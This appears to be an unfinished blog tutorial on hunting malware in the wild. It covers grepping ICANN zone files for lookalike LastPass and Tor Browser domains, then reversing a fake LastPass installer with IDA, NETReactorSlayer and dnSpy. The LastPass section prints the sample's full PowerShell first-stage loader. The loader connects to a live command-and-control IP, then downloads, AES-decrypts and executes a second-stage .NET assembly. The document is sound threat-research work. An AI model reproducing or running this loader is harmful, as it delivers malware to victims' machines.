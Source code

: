 ```yaml
---
title: Introduction to hunting malware in the wild
date: "2023-03-26T23:19:48.121Z"
description: Using domain zone files that contain lists of all active domains, we can search for fake websites, passing as being real websites for already existing products, that offer downloads to software that has malware attached to it. In this article, we'll look at fake LastPass and TOR Browser sites trying to spread malware
tags: ["reverse-engineering", "hardware-hacking"]
published: true
---
```


# How to find fraudulant sites

ICANN is the internet's governing body that controls all domain TLD's, from publicly available ones such as .com, .net, .org, etc. to private ones registered by companies, like .audi, .nike, etc. (TODO:) We can register an account with ICANN [here](https://account.icann.org/registeraccount) and apply for access to certain TLD zone files [here](https://czds.icann.org/zone-requests/all). Once you have selected the TLD's you'd like to search, you should be approved for most within minutes, some might take a day or two. When I first created my account for the purpose of doing this research, I applied for access to every TLD they offered, and over the course of about a week, they all were approved.

If you don't want to go through ICANN, another way to get the same data would be to pay for it through a site like [zonefiles.io](https://zonefiles.io). You can pay for a month of service, download the zone files, and then cancel your membership.

# Searching the zone files

Depending on where you get the zone file, they can be as large as 7+GB gzipped. A trick I found to be able to search through these large zip files without extracting them is running a command like:

```bash
gunzip -c ALLZONES_zone_full.gz | grep "lastpass" > lastpass-domains.txt
gunzip -c ALLZONES_zone_full.gz | grep "quickbooks" > quickbooks-domains.txt
```

Resulting in files like this:

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#lastpass-domains.txt`

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#torbrowser-domains.txt`

Going through these domains, we see that there are three categories the domains fall under.

1. It's a domain that the actual company owns, and they just own it so no one else can have it. These likely will redirect back to the main company website.

2. It's a domain that is parked and goes nowhere, or doesn't resolve to anything.

3. It's a domain that looks identical to the real product site, but isn't owned by the company, and is being used to spread downloads of the product with malware in it.

We can write a simple javascript script that loops through these domains and finds the ones that likely fall into the third category that we're interested in.

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#domain-verification.js`

Running this script through our two domain files shrinks the results down significantly:

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#lastpass-domains-results.txt`

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#torbrowser-domains-results.txt`

# Analyzing LastPass malware

Looking through our filtered list of LastPass domains, we find a domain called https://lastpassword.org. It has a valid certificate, similar to the actual https://lastpass.com website, but a few things become suspicious immediately.

1. The domain https://lastpassword.org doesn't redirect to https://lastpass.com, despite it looking very similar
2. The download link points to a different domain called `https://ozturk-web.com/`
3. The file that is downloaded is a generic name, `https://ozturk-web.com/captcha/appsetup_v14.3.zip`
4. When extracting the initial zip file, the executable installer is >800mb when the real LastPass installer is ~95mb. This could be a sign that the malicious executable file is packed and/or obfuscated with junk code. Another reason why some might create such large executable files for malware is that sites like VirusTotal only allow uploads <650mb. But if we simply take the much smaller zip file and upload it to VirusTotal, we see several hits: https://www.virustotal.com/gui/file/3727544a95fe98f0ebbd0d8138bdae745af64e88cb18eebe7dd04ae0eba49005

![AppSetup zip file analyzed through Virus Total](./assets/virus-total-appset-exe.png)

Using Process Explorer and TCPView by SysInternals (TODO: add links) we see that the malware spawns a `powershell.exe` process, and then calls out to a command and control server at `45.93.201.114`. This gives us a good place to start looking when we disassemble the executabele.

![Malware in process explorer](./assets/procexp.png)

![Malware in tcpview](./assets/tcpview.png)

Loading the exe as a Microsoft .NET Assembly in IDA Pro, we see 0 imports, 1 obfuscated export, a crazy looking function graph, and only a few readable strings that indicate that it probably has some anti-debugger capabilities, and it has been packed with *Eziriz's ".NET Reactor"*.

![Malware IDA Graph](./assets/malware-graph.png)

![Malware IDA Strings](./assets/malware-strings.png)

After some Googling, I found a tool called [NETReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer) that can unpack it using the following command: `.\NETReactorSlayer.CLI.exe .\appsetup_v14.3.exe` which gives uhs a new file called `appsetup_v14.3_Slayed.exe` that is only 222kb.

![NETReactorSlayer CLI](./assets/netreactor-slayer.png)

Now that we've unpacked the malware, we can load it into dnSpy (32-bit) and look through the modules for `Process.Start()` which is likely to be responsible for spawning `powershell.exe`. If you're dealing with something else, a safe bet would be to put a breakpoint on any `.Invoke()` methods that you find and stepping through the code until you find what you're looking for. `Process.Start()` was found in the `GForm0` class here:

![Process Start](./assets/process-start.png)

After setting the breakpoint on that line and running the executable, the breakpoint shows a variables called `fileName` with a value of: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` and a variable called `texct` with a value of:

```powershell
$ephapseAbluent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('NDUuOTMuMjAxLjExNA=='));
$abluentFlywort = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('L2RvY3MvT3BqSG1CT3JRU3lIV2Y4dHQwTUVncEVEa3M3UUNHLnR4dA=='));
$arctiidHatlike = new-object System.Net.Sockets.TcpClient
$arctiidHatlike.Connect($ephapseAbluent, 80)
$alumnusArctiid = $arctiidHatlike.GetStream();
$arctiidHatlike.SendTimeout = 300000;
$arctiidHatlike.ReceiveTimeout = 300000;
$abluentAlumnus = [System.Text.StringBuilder]::new()
$abluentAlumnus.AppendLine('GET ' + $abluentFlywort);
$abluentAlumnus.AppendLine('Host: ' + $ephapseAbluent);
$abluentAlumnus.AppendLine();
$ephapseAlumnus = [System.Text.Encoding]::ASCII.GetBytes($abluentAlumnus.ToString());
$alumnusArctiid.Write($ephapseAlumnus, 0, $ephapseAlumnus.Length);
$medishAbluent = New-Object System.IO.MemoryStream;
$alumnusArctiid.CopyTo($medishAbluent);
$alumnusArctiid.Dispose();
$arctiidHatlike.Dispose();
$medishAbluent.Position = 0;
$arctiidMiniate = $medishAbluent.ToArray();
$medishAbluent.Dispose();
$medishMiniate = [System.Text.Encoding]::ASCII.GetString($arctiidMiniate).IndexOf('`r`n`r`n')+1;
$hatlikeAlumnus = [System.Text.Encoding]::ASCII.GetString($arctiidMiniate[$medishMiniate..($arctiidMiniate.Length-1)]);
$hatlikeAlumnus = [System.Convert]::FromBase64String($hatlikeAlumnus);
$ephapseFlywort = New-Object System.Security.Cryptography.AesManaged;
$ephapseFlywort.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$ephapseFlywort.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$ephapseFlywort.Key = [System.Convert]::FromBase64String('aJvSOk5kMKPekqrDnZkBL1oUMR7885xdT/JCog+CMHQ=');
$ephapseFlywort.IV = [System.Convert]::FromBase64String('une0AqbEQmDMhGdzlX+yfg==');
$miniatePsi = $ephapseFlywort.CreateDecryptor();
$hatlikeAlumnus = $miniatePsi.TransformFinalBlock($hatlikeAlumnus, 0, $hatlikeAlumnus.Length);
$miniatePsi.Dispose();
$ephapseFlywort.Dispose();
$alumnusPsi = New-Object System.IO.MemoryStream(, $hatlikeAlumnus);
$arctiidFlywort = New-Object System.IO.MemoryStream;
$abluentMiniate = New-Object System.IO.Compression.GZipStream($alumnusPsi, [IO.Compression.CompressionMode]::Decompress);
$abluentMiniate.CopyTo($arctiidFlywort);
$hatlikeAlumnus = $arctiidFlywort.ToArray();
$miniateHatlike = [System.Reflection.Assembly]::Load($hatlikeAlumnus);
$hatlikeAbluent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aGVlZGVyQ2hlbWlzZQ=='));
$alumnusHatlike = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('cHNpQXJjdGlpZA=='));
$dunnageMiniate = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('cHNpSGF0bGlrZQ=='));
$miniateAbluent = $miniateHatlike.GetType($hatlikeAbluent + '.' + $alumnusHatlike);
$dunnageMedish = $miniateAbluent.GetMethod($dunnageMiniate);
$dunnageMedish.Invoke($miniateMedish, (, [string[]] (''))); #($miniateMedish, $miniateMedish);\
```

This looks to be the first stage of a multi-stage payload. If we do some manual decoding of the Base64 strings, we see that the first couple of lines decode to the IP address we saw in TCPView: `45.93.201.114` and a path to a second stage payload at `/docs/OpjHmBOrQSyHWf8tt0MEgpEDks7QCG.txt`.

(TODO:)

# Analyzing Tor Browser malware
(TODO:)

# Conclusion

These are just a couple of examples of how someone can find and research malware in the wild, and these are just two ideas for companies and products to target to search for this malicious software being passed as legit. Some other ideas for products or comapnies to search are: VMWare, ImgBurn, Microsoft Word, ExpressVPN, and Dropbox. If you find anything interesting, feel free to share it!
